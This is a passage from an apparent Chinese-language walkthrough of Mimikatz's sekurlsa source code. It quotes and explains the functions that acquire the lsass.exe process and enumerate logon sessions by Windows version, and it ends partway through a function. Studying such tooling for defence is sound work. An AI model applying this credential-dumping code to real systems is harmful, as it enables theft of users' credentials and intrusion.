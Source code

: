 ```c++
typedef struct _KUHL_M_SEKURLSA_PACKAGE {
    const wchar_t * Name;
    PKUHL_M_SEKURLSA_ENUM_LOGONDATA CredsForLUIDFunc;
    BOOL isValid;
    const wchar_t * ModuleName;
    KUHL_M_SEKURLSA_LIB Module;
} KUHL_M_SEKURLSA_PACKAGE, *PKUHL_M_SEKURLSA_PACKAGE;
```

随后调用 `kuhl_m_sekurlsa_getLogonData()` 函数获取用户的登录信息，该函数后紧接着一系列复杂的调用过程。

Get Logon Data
--------------

跟进 `kuhl_m_sekurlsa_getLogonData()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa.c

```c++
NTSTATUS kuhl_m_sekurlsa_getLogonData(const PKUHL_M_SEKURLSA_PACKAGE * lsassPackages, ULONG nbPackages)
{
    KUHL_M_SEKURLSA_GET_LOGON_DATA_CALLBACK_DATA OptionalData = {lsassPackages, nbPackages};
    return kuhl_m_sekurlsa_enum(kuhl_m_sekurlsa_enum_callback_logondata, &amp;OptionalData);
}
```

这里将传进来的 lsass 包组成 `OptionalData` 后传入 `kuhl_m_sekurlsa_enum()` 函数。

Main Enumeration Function
-------------------------

跟进 `kuhl_m_sekurlsa_enum()` 函数，该函数是主要的枚举函数，枚举包括 lsass.exe 进程、用户会话在内的相关信息。

- sekurlsa\\kuhl\_m\_sekurlsa.c

```c++
NTSTATUS kuhl_m_sekurlsa_enum(PKUHL_M_SEKURLSA_ENUM callback, LPVOID pOptionalData)
{
    KIWI_BASIC_SECURITY_LOGON_SESSION_DATA sessionData;
    ULONG nbListes = 1, i;
    PVOID pStruct;
    KULL_M_MEMORY_ADDRESS securityStruct, data = {&amp;nbListes, &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE}, aBuffer = {NULL, &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    BOOL retCallback = TRUE;
    const KUHL_M_SEKURLSA_ENUM_HELPER * helper;
    // 调用 kuhl_m_sekurlsa_acquireLSA() 函数提取 lsass.exe 进程信息
    NTSTATUS status = kuhl_m_sekurlsa_acquireLSA();

    if(NT_SUCCESS(status))
    {
        sessionData.cLsass = &amp;cLsass;
        sessionData.lsassLocalHelper = lsassLocalHelper;
        // 判断当前 Windows 系统的版本信息
        if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_2K3)
            helper = &amp;lsassEnumHelpers[0];
        else if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_VISTA)
            helper = &amp;lsassEnumHelpers[1];
        else if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_7)
            helper = &amp;lsassEnumHelpers[2];
        else if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_8)
            helper = &amp;lsassEnumHelpers[3];
        else if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_BLUE)
            helper = &amp;lsassEnumHelpers[5];
        else
            helper = &amp;lsassEnumHelpers[6];

```
